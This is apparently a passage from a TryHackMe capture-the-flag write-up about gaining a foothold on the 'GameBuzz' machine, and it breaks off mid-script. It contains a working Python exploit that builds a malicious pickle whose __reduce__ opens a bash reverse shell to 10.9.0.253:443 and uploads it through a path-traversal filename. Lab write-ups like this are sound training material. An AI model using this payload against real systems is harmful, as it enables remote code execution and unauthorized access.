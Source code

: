 ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/GameBuzz/images/Pasted%20image%2020230124124038.png)

**View source page:**
```html
<form action="script.php" method="post" enctype="multipart/form-data">
    Upload a File:
    <input type="file" name="the_file" id="fileToUpload">
    <input type="submit" name="submit" value="Start Upload">
</form>
```

When we clicked the "Start Upload" button, it'll send a POST request to `/secret/upload/script.php`, with parameter `the_file`.

## Initial Foothold

Armed with above information, **we can upload our own evil pickled object to the server, then deserialize the pickled object in `/fetch`.**

But first, let's upload a test file:

```shell
┌[root♥siunam]-(~/ctf/thm/ctf/GameBuzz)-[2023.01.24|12:42:57(HKT)]
└> echo -n 'testing' > test.txt
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/GameBuzz/images/Pasted%20image%2020230124124326.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/GameBuzz/images/Pasted%20image%2020230124124340.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/GameBuzz/images/Pasted%20image%2020230124124351.png)

We successfully uploaded a file. But where does the file lives??

However, I couldn't find the uploaded file.

Maybe we can upload our file to a specific path via **path traversal**?

**To do so, I'll write a Python script to upload and trigger the deserialization payload:**
```py
#!/usr/bin/env python3

import requests
import pickle
import os

class PickleRCE:
    def __reduce__(self):
        return (os.system,("bash -c '/bin/bash -i >& /dev/tcp/10.9.0.253/443 0>&1' ",))


def main():
    uploadURL = 'http://dev.incognito.com/secret/upload/script.php'
    uploadData = {'submit': 'Start Upload'}

    filename = 'evilObject.pkl'
    file = {
        'the_file': (f'../../../../../../../../../var/upload/games/{filename}', pickle.dumps(PickleRCE()))
    }

    uploadRequestResult = requests.post(uploadURL, data=uploadData, files=file)
    print(f'[*] Upload file request:\n{uploadRequestResult.text}')

    pickleURL = 'http://incognito.com/fetch'
    pickleData = {'object': f'/var/upload/games/{filename}'}

```